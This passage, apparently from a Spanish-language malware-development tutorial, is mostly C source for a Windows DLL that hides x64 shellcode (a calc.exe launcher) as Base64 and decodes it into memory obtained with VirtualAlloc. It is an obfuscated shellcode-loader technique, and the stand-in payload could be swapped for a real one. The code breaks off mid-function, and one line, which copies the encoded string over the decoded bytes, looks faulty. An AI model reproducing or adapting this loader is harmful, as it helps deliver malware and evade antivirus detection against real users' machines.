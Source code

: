 ![base_injection_exec_dll](/assets/images/base_injection_exec_dll.png)

## DLL calc shellcode Base64 codificado

El código asociado a la inyección de la calculadora obfuscada en Base64:
```c
#include <Windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <Wincrypt.h>
#pragma comment (lib, "user32.lib")
#pragma comment (lib, "Crypt32.lib")

extern "C" {

int DecodeBase64( const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen ) {
	DWORD outLen;
	BOOL fRet;
	outLen = dstLen;
	fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, (BYTE * )dst, &outLen, NULL, NULL);
	if (!fRet) outLen = 0;  // failed
	return( outLen );
	}
	
__declspec(dllexport) BOOL WINAPI f0ns1(void) {	
	unsigned char calc_payload[] = "/EiD5PDowAAAAEFRQVBSUVZIMdJlSItSYEiLUhhIi1IgSItyUEgPt0pKTTHJSDHArDxhfAIsIEHByQ1BAcHi7VJBUUiLUiCLQjxIAdCLgIgAAABIhcB0Z0gB0FCLSBhEi0AgSQHQ41ZI/8lBizSISAHWTTHJSDHArEHByQ1BAcE44HXxTANMJAhFOdF12FhEi0AkSQHQZkGLDEhEi0AcSQHQQYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVpIixLpV////11IugEAAAAAAAAASI2NAQEAAEG6MYtvh//Vu/C1olZBuqaVvZ3/1UiDxCg8BnwKgPvgdQW7RxNyb2oAWUGJ2v/VY2FsYy5leGUA";
	unsigned int payload_len = sizeof(calc_payload);
	void * exec_mem;
	DWORD outLenb64;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	DecodeBase64((const BYTE *)calc_payload, payload_len, (char *) exec_mem, payload_len);
	RtlMoveMemory(exec_mem, calc_payload, payload_len);
```